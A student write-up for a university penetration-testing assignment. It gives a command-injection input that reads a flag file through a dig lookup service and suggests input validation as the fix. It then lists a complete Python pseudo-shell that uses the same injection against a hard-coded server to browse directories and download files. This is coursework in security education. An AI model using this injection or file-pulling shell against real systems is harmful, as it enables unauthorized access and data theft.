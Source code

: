 # Writeup 4 - Pentesting I

Name: *ROBERT NASH*
Section: *0201*

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Robert Nash

## Assignment Writeup

### Part 1 (45 pts)

The right flag: `CMSC389R{d1gging_f0r_flag5_thr0ugh_1njec7ion}`

Input: `google.com > /dev/null && cat /home/flag.txt`

To figure this out I first type a legitimate URL to see what output it gave me. Once I saw the output, I ran the same dig command on my own computer to compare the output. It was the same so I concluded nothing was out of the ordinary. Then I added commands to see what I could get away with. In bash if you add && to the end of a command, you can execute a second command after the first one is successful. So I added `&& ls` to the end of `google.com` so that the server would run the complete command `dig google.com && ls`. In theory, the server would run the first command, `dig google.com` and then run my command right after. Sure enough it printed the dig command along with the listing of the current root folder. From there I could add `> /dev/null` to suppress the output of dig because we don't care about that and then any command we want. We could `ls` any directory to see what is on it First we added `ls /home` and saw the `flag.txt` and then typed `cat /home/flag.txt` to read its contents.
If Elizabeth wanted to prevent this type of attack, she would implement a defense called input validation. The script she uses on her service would first check the input to make sure it met a certain set of criteria before allowing the command to be executed. For example, the user should only be submitting registered domains. There really isn't much of a reason for the input to have any special characters such as `;` or `&` or a space. Therefore Elizabeth could check if the the input had these characters, and if so, reject it and either close the connection or ask for new input.


### Part 2 (55 pts)

```
import socket

host = "142.93.136.81" # IP address here
port = 1337 # Port here
path = ""
shell_active = 0
help_menu = "\
shell                              Drop into an interactive shell\n\
pull <remote-path> <local-path>    Download files\n\
help                               Shows this help menu\n\
quit                               Quit the shell"

def execute_cmd(cmd):
    global path
    global shell_active

    command = cmd.split()

    if command[0] == "pwd":
            print(path.strip())
    elif command[0] == "ls":
        if len(command) == 1:
            tcpSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            tcpSocket.connect((host, port))
            data = tcpSocket.recv(1024)
            tcpSocket.send("google.com > /dev/null; ls " + path.strip() + "\n")
            data = tcpSocket.recv(1024)
            print(data.strip())
        else:
            tempPath = command[1]
            tcpSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            tcpSocket.connect((host, port))
            data = tcpSocket.recv(1024)
            tcpSocket.send("google.com > /dev/null; ls " + tempPath.strip() + "\n")
            data = tcpSocket.recv(1024)
            print(data.strip())

    elif command[0] == "cd":
        try:
            if command[1] == "..":
                tcpSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                tcpSocket.connect((host, port))
                data = tcpSocket.recv(1024)
                tcpSocket.send("google.com > /dev/null; cd " + path.strip() + "/.. && pwd" "\n")
                path = ""
                path = tcpSocket.recv(1024)
            else:
                tcpSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                tcpSocket.connect((host, port))
                data = tcpSocket.recv(1024)
                tcpSocket.send("google.com > /dev/null; cd " + path.strip() + "/" + command[1] +"; pwd" "\n")
                path = ""
                path = tcpSocket.recv(1024)
        except IndexError:
            print("Must specify directory.")
    elif command[0] == "cat":
        try:
            file = command[1]
            tcpSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            tcpSocket.connect((host, port))
            data = tcpSocket.recv(1024)
            tcpSocket.send("google.com > /dev/null ; cat " + path.strip() + "/" + file + "\n")
            data = tcpSocket.recv(4096)
            print(data.strip())
        except IndexError:
            print("Must specify file.")

    elif command[0] == "quit":
            print("Disconnecting from host...\n")
            shell_active = 0
    else:
        print("Unknown command. Try again.")


if __name__ == '__main__':
    while 1:
        prompt = raw_input("> ").split()

        if prompt[0] == "shell":
            print("Connecting to host...\n")
            shell_active = 1

            tcpSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            tcpSocket.connect((host, port))
            data = tcpSocket.recv(1024)
            tcpSocket.send("google.com > /dev/null; pwd\n")
            path = tcpSocket.recv(1024)

            print("Connected.\n")

            while shell_active:
                cmd = raw_input(path.strip() + "> ")
                execute_cmd(cmd)
        elif prompt[0] == "pull":
            inFile = open(prompt[2], "w+")

            outFile = prompt[1]
            tcpSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            tcpSocket.connect((host, port))
            data = tcpSocket.recv(1024)
            tcpSocket.send("google.com > /dev/null; cat " + outFile.strip() + "\n")
            data = tcpSocket.recv(4096)
            inFile.write(data)

            inFile.close()
        elif prompt[0] == "help":
            print (help_menu)

        elif prompt[0] == "quit":
            exit(0)
        else:
            print("Unknown command. Try one of these instead:\n")
            print(help_menu)
```

The above source code is a python program that when executed, opens a shell that will interact with the server via the vulnerability. Every time the user wants to pass a command to a server, the program will connect to the server and add the user's command to the command the server expects. If the user traverses paths, the program keeps track of where the user should be and alters commands according to the full path.  If the user simply wants to pull a file from the server, the program connects to the server and `cat`'s the file into a buffer. The program will read this buffer and save it to a file. If the file exists, it will be overwritten, if not, the file will be created. The user can also print out a help menu or type `quit` to gracefully exit the program.
A new connection is made every time a user enters a new command but the program makes it seem as though the user is on the host machine the entire time.

